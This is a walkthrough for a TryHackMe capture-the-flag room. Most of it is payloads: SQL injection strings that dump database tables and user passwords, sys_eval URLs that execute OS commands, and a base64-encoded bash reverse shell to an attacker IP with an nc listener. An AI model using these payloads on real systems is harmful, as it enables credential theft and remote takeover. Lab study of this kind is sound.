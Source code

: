 # TryHack3M: Sch3Ma D3Mon

**Room Link:** [https://tryhackme.com/r/room/sch3mad3mon](https://tryhackme.com/r/room/sch3mad3mon)

## A Public Computer with a VPN

goto Edit -> preferences -> protocols -> search for SSL or TLS -> select the ssl-key.log file and hit enter to decrypt the web traffic.



<figure><img src="../../.gitbook/assets/image (1092).png" alt=""><figcaption></figcaption></figure>

**Filter**

```
http contains "Username"
```

<figure><img src="../../.gitbook/assets/image (1093).png" alt=""><figcaption></figcaption></figure>

## Connected Tables

**Filter**

```
' union select 1,2,3,4,5 -- //
```



### Find Databse

**Filter**

```
' union select 1,2,3,4,database() -- //
```

<figure><img src="../../.gitbook/assets/image (1095).png" alt=""><figcaption></figcaption></figure>

### Find Tables

**Filter**

```
' union select 1,2,3,4,group_concat(table_name) from information_schema.tables WHERE table_schema = 'mayh3Mmarketplace'; -- //
```

<figure><img src="../../.gitbook/assets/image (1096).png" alt=""><figcaption></figcaption></figure>

### Get fields

**Filter**

```
' union select 1,2,3,4,group_concat(column_name) from information_schema.columns where table_name='users' -- //
```

<figure><img src="../../.gitbook/assets/image (1097).png" alt=""><figcaption></figcaption></figure>

### Get field info

Confirmed we're the only other user.

**Filter**

```
' union select 1,group_concat(username),group_concat(password),3,4 FROM users -- -
```

<figure><img src="../../.gitbook/assets/image (1098).png" alt=""><figcaption></figcaption></figure>

**Filter**

```
' union select 1,2,3,4,group_concat(column_name) from information_schema.columns where table_name='unlisted_products' -- //
```

<figure><img src="../../.gitbook/assets/image (1099).png" alt=""><figcaption></figcaption></figure>

**Filter**

```
' union select null,null,null,null, group_concat(product_name) from unlisted_products -- //
```

<figure><img src="../../.gitbook/assets/image (1100).png" alt=""><figcaption></figcaption></figure>

## From DB to OS

**URL**

```
http://10.10.26.7:8000/os_sqli.php?user=lannister' union SELECT null, null, null, null, sys_eval('whoami') -- //
```

<figure><img src="../../.gitbook/assets/image (1101).png" alt=""><figcaption></figcaption></figure>

**URL**

```
http://10.10.26.7:8000/os_sqli.php?user=lannister%27%20union%20SELECT%20null,%20null,%20null,%20null,%20sys_eval(%27pwd%27)%20--%20//
```

<figure><img src="../../.gitbook/assets/image (1102).png" alt=""><figcaption></figcaption></figure>

## Finding a Needle in a Malwarestack

We can see the files but if we cat them they get cut off.&#x20;

**URL**

```
http://10.10.61.64:8000/os_sqli.php?user=lannister%27%20union%20SELECT%20null,%20null,%20null,%20null,%20sys_eval(%27ls%20%20/home/receipts%27)%20--%20//
```

<figure><img src="../../.gitbook/assets/image (1103).png" alt=""><figcaption></figcaption></figure>

**URL**

```
' union select null,null,null,column_name,null from information_schema.columns where table_name='transactions' -- // 
```

<figure><img src="../../.gitbook/assets/image (1104).png" alt=""><figcaption></figcaption></figure>

**URL**

```
' union select null,null,null,null,group_concat(transaction_number, '::', bcoin_sender_address, '::', bcoin_recipient_address,'\n') from transactions -- //
```

<figure><img src="../../.gitbook/assets/image (1105).png" alt=""><figcaption></figcaption></figure>

**URL**

```
' union select null,null,null,sys_exec('touch /var/lib/mysql/my_file.txt'),null -- //
' union select null,null,null,sys_eval('ls -al /home/receipts/ > /var/lib/mysql/my_file.txt'),null -- //
' union select null,null,null,load_file('/var/lib/mysql/my_file.txt'),null -- // verify that our command able to load the file

' union select null,null,null,load_file('/home/receipts/3000000.txt.gpg'),null -- //
```

<figure><img src="../../.gitbook/assets/image (1106).png" alt=""><figcaption></figcaption></figure>

If you use Burp the output will be nicer to copy over.

<figure><img src="../../.gitbook/assets/image (1107).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (1108).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
gpg --decrypt 3000000.txt.gpg
Passphrase: eqFN5vBg4n2t4xGsJF7BYNWMtTaVA1muES
```

<figure><img src="../../.gitbook/assets/image (1109).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1110).png" alt=""><figcaption></figcaption></figure>



## Operation Defang

<figure><img src="../../.gitbook/assets/image (1112).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 9001
```

**URL**

```
http://10.10.61.64:8000/os_sqli.php?user=lannister%27%20union%20SELECT%20null,%20null,%20null,%20null,%20sys_eval(%27echo%20L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2MS4xNDEvOTAwMSAwPiYx%20|%20base64%20-d%20%20|/bin/bash%27)%20--%20//
```



<figure><img src="../../.gitbook/assets/image (1113).png" alt=""><figcaption></figcaption></figure>

**Victim**&#x20;

```
script -qc /bin/bash /dev/null
ctrl + Z
stty raw -echo;fg
```



**Victim**&#x20;

```
cd /home/products/malware/4sale/pal4t1n3/MisterMeist3r/2DC6C0
ls 
```

<figure><img src="../../.gitbook/assets/image (1114).png" alt=""><figcaption></figcaption></figure>

After reading the code I saw that we can defang the code just by changing the config.ini file fto debug=true so we can run the code without having to worry about what will happen.

**Victim**&#x20;

```
echo "debug=true" > config.ini  
./build.sh 
```

<figure><img src="../../.gitbook/assets/image (1115).png" alt=""><figcaption></figcaption></figure>

